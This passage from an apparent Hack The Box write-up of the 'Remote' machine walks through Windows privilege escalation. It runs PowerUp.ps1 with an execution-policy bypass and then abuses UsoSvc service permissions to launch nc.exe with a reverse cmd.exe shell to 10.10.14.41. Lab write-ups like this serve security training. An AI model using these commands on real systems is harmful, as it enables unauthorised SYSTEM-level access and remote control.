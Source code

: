 There are a couple paths to root. The easiest is 

<h5 align="left">Method 1:</h5>

Upload the powershell script *PowerUp.ps1* (using the same technique we uploaded netcat with) and running it with

```
powershell -exec bypass -command "& {import-module .\powerup.ps1; invoke-allchecks}"
```

![powerup](/assets/img/writeups/htb/boxes/remote/remote_powerup.png)

We see the service permisions on UsoSvc are exploitable, and all we have to do is simply run the function it suggests using the same nc.exe we uploaded earlier to get a system shell

```
powershell -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-ServiceAbuse -ServiceName UsoSvc -Command 'c:\Users\Public\nc.exe 10.10.14.41 1234 -e cmd.exe'}"
```

![root1](/assets/img/writeups/htb/boxes/remote/remote_root1.png)
